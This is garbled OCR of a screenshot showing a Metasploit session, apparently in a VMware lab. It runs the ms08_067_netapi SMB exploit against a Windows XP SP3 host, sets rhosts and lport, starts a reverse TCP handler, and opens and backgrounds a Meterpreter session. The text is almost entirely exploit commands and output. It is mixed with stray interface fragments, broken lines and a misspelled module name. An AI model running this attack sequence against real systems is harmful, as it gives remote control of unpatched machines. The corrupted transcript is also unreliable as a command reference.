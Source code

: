 [*] Started reverse TCP handler on 192.168.152.148:5555 PI
[]192.168.152.158:445-Automatically detecting the target... 0
[*]192.168.152.158:445-Attempting to trigger the vulnerability...
[*]
Sending stage (180291 bytes) to 192.168.152.158
[*] Meterpreter session 1 opened (192.168.152.148:5555→ 192.168.152.158:1040)at 2020-05-24 22:45:37 -0400 neterpreter>
msf5 ex rhosts msf5 ex lport
meterpreter > background msf5 ex
[*]
Backgrounding session 1...
[*]
Sta 192
[*]
[*]192
msf5 exploit(windows/smb/ms08_067_netapi)>search 14-002
[*]192
192
Matching Modules
[*]
Ser
======
88 Met
行：5■14
字数：42 拼写检查 文程校对meterpreter
一■■ 

hongkeketang-VMware Workstation
文件F
选项卡①
全
Shell No.1 文件（F）动作（A） 编辑（E） 齑看（V） 帮助（H）
Exploit target: Id
Name -
0
Automatic Targeting
msf5 exploit(windows/smb/ms08_067_netapi)>set rhosts 192.168.152.140 rhosts 192.168.152.140
msf5 exploit(windows/smb/ms08_067_netapi)> set lport 5555 lport→ 5555
msf5 exploit(windows/smb/ms08_067_netapi) > run
[*]
Started reverse TCP handler on 192.168.152.128:5555
192.168.152.140:445-Automatically detecting the target...
[*]
[*]
192.168.152.140:445- Fingerprint: Windows XP - Service Pack 3 - lang:English
[*]
192.168.152.140:445-Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*]
192.168.152.140:445- Attempting to trigger the vulnerability... 闵闲
Sending stage (176195 bytes) to 192.168.152.140
Meterpreter session 1 opened (192.168.152.128:5555 → 192.168.152.140:1033) at 2020-07-06 14:43:30 +0800 meterpreter > background
[*]Backgrounding session 1...
msf5 exploit(windows/smb/ms08_067_netapf) 
